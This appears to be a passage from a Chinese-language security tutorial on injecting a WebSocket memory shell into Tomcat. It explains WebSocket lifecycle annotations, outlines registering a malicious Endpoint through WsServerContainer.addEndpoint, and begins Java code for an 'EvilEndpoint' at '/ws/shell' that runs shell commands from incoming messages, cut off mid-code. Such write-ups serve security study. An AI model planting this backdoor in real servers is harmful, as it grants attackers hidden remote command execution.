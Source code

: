 ![](img/2023-02-06-17-22-00.png)  
而sc即是WsServerContainer对象.
#### 生命周期
在WebSocket进行信息通信的过程中有以下几个生命周期.  
* @OnOpen 建立连接时触发。
* @OnClose 关闭连接时触发。
* @OnError 发生异常时触发。
* @OnMessage 接收到消息时触发。  
  
而我们注入内存马的地方就是重写其中的方法来执行shell代码.
#### 使用方式
在Tomcat中有两种方式定义一个处理WebSocket协议的类,一是通过`@ServerEndpoint`注解,二是实现一个继承于Endpoint类的子类. 
##### 注解  
注解方法官方参考:https://docs.oracle.com/javaee/7/api/javax/websocket/server/ServerEndpoint.html    
一个@ServerEndpoint注解应该有以下元素：

* value：必要，String类型，此Endpoint部署的URI路径。
* configurator：非必要，继承ServerEndpointConfig.Configurator的类，主要提供ServerEndpoint对象的创建方式扩展（如果使用Tomcat的WebSocket实现，默认是反射创建ServerEndpoint对象）。
* decoders：非必要，继承Decoder的类，用户可以自定义一些消息解码器，比如通信的消息是一个对象，接收到消息可以自动解码封装成消息对象。
* encoders：非必要，继承Encoder的类，此端点将使用的编码器类的有序数组，定义解码器和编码器的好处是可以规范使用层消息的传输。
subprotocols：非必要，String数组类型，用户在WebSocket协议下自定义扩展一些子协议。

##### 继承
继承于Endpoint类的子类的方式需要重写几个生命周期方法,比注解更麻烦.
#### 实现思路
实现的思路类似,获取到WsServerContainer对象,调用其addEndpoint方法将我们的恶意Endpoint添加进去即可.
#### 实现代码
```java
package org.example.Servlets;


import javax.websocket.OnMessage;
import javax.websocket.Session;
import javax.websocket.server.ServerEndpoint;
import java.io.IOException;
import java.util.Scanner;


@ServerEndpoint("/ws/shell")
public class EvilEndpoint {
    @OnMessage
    public void processGreeting(String message, Session session) throws IOException {
        if (message != null) {
            String o = "";
            ProcessBuilder p;
```